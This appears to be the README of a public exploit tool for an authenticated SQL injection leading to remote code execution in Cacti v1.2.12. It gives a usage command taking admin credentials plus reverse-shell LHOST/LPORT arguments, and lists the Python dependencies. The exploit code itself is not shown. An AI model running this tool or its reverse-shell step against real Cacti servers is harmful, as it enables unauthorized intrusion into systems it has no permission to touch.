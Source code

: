# Cacti v1.2.12 Authenticated Remote Code Execution     
# (SQLI --> RCE)

<h4> Discovery : https://github.com/Cacti/cacti/issues/3622 </h4>


<h3> Usage : </h3>
<br>
<h2>python3 cacti_rce.py cacti_rce.py -H http://cactiurl -U `ADMIN USERNAME` -P `ADMIN PASSWORD` -l `LHOST` -p `LPORT` </h2>
  

usage: cacti_rce.py [-h] [-H H] [-U U] [-P P] [-l L] [-p P]

Cacti v1.2.12 Authenticated Remote Code Execution

 <p> optional arguments: </p>
 <p> -h, --help  show this help message and exit  </p>
 <p> -H H        Cacti URL Eg:http://cactiurl     </p>
 <p> -U U        Cacti Admin Username             </p>
 <p> -P P        Cacti Admin Password             </p>
 <p> -l L        rev shell lhost                  </p>
 <p> -p P        rev shell lport                  </p>


# Dependencies

<h4> pip3 install argparse </h4>
<h4> pip3 install bs4 </h4>
<h4> pip3 install requests </h4>
